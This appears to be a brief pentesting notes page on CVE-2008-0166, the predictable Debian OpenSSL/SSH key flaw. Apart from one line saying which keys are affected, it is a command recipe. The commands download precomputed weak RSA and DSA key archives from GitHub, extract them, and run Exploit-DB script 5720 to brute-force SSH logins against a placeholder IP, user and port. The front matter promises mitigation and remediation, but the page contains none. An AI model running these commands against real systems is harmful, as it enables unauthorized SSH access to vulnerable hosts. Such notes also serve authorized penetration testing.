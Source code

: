 ```yaml
---
description: >-
  Explore an in-depth analysis of the significant CVE-2008-0166, understanding
  its impact, mitigation strategies, and remediation. Be informed, stay secure.
---
```


# CVE-2008-0166

#### CVE-2008-0166 <a href="#cve-2008-0166" id="cve-2008-0166"></a>

All SSL and SSH keys generated on Debian-based systems (Ubuntu, Kubuntu, etc) between September 2006 and May 13th, 2008 may be affected.

{% embed url="https://www.exploit-db.com/exploits/5720" %}

```
wget https://github.com/g0tmi1k/debian-ssh/raw/master/common_keys/debian_ssh_rsa_2048_x86.tar.bz2 https://github.com/g0tmi1k/debian-ssh/raw/master/common_keys/debian_ssh_dsa_1024_x86.tar.bz2

bunzip2 debian_ssh_rsa_2048_x86.tar.bz2 debian_ssh_dsa_1024_x86.tar.bz2
tar -xvf debian_ssh_rsa_2048_x86.tar
tar -xvf debian_ssh_dsa_1024_x86.tar

python 5720 rsa/2048 <IP> <USER> <PORT> <THREADS>
python 5720 dsa/1024 <IP> <USER> <PORT> <THREADS>
```
